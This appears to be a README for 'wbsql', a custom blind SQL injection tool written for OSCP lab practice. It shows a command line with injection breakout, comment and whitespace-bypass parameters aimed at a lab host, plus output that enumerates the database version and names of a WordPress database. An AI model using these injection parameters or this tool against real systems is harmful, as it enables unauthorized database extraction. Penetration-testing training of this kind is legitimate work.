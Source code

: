 #### Use case

    This module is for blind SQL injection.
    SQLmap is a better andmore robust alternative, however,
    we are not allowed to use automation tools on the OSCP.
    Therefore, I created this custom module for my own usage.

    #### Sample module wbsql
    wbsql -rh 10.11.1.251 -if burpRequest.txt -t "t')" -wd "/**/" -co "#" -hp 127.0.0.1:8080 -pps 11
        Options:

        1: Get database version
        2: Get current database name
        3: List all databases
        4: List tables from database
        5: List columns from a table
        5: Get column value for a row from a table
        Type 'exit' to exit


        Select an option (numerical value): 1
        Total time: 12.607749938964844 seconds
        Database version: 5.7.27-0ubuntu0.18.04.1
        Options:

        1: Get database version
        2: Get current database name
        3: List all databases
        4: List tables from database
        5: List columns from a table
        5: Get column value for a row from a table
        Type 'exit' to exit


        Select an option (numerical value): 2
        Total time: 8.911953926086426 seconds
        Current database name: wordpress
        Options:

        1: Get database version
        2: Get current database name
        3: List all databases
        4: List tables from database
        5: List columns from a table
        5: Get column value for a row from a table
        Type 'exit' to exit


        Select an option (numerical value): 3
        Total time: 28.784571886062622 seconds
        Databases:
        information_schema
        mysql
        performance_schema
        sys
        wordpress

        Options:

        1: Get database version
        2: Get current database name
        3: List all databases
        4: List tables from database
        5: List columns from a table
        5: Get column value for a row from a table
        Type 'exit' to exit


        Select an option (numerical value): exit
